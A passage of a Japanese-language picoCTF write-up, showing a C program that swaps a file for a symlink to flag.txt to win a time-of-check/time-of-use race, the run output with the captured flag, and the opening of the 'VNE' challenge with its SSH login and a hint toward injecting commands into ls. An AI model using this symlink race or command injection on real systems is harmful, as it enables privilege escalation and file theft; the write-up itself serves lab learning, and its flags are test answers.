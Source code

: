 <br />

- symbolic-link.c
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char * argv[])
{
    unlink(argv[1]);
    symlink("./flag.txt", argv[1]);
}
```

<br />

これらのファイルをscpで転送しておき、symbolic-link.c は gcc でコンパイルしておきます。

<br />

その後、exploit.shを実行すると、タイミングによってはフラグの中身が表示されることがあります。

<pre>
ctf-player@pico-chall$ /bin/bash ./exploit.sh
This is a file that the user can overwrite
This is a file that the user can overwrite
:
(snip)
:
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_007659c9}
Error: you don't own this file
Error: you don't own this file
</pre>

<br />

Flag: `picoCTF{ToctoU_!s_3a5y_007659c9}`



<br /><br />
<br /><br />
## [Binary Exploitation]: VNE (200 points)
- - -
### Challenge
> We've got a binary that can list directories as root, try it out !!
ssh to saturn.picoctf.net:62449, and run the binary named "bin" once connected. Login as ctf-player with the password, 8a707622
<br /><br />
Hint1: Have you checked the content of the /root folder
<br />
Hint2: Find a way to add more instructions to the ls
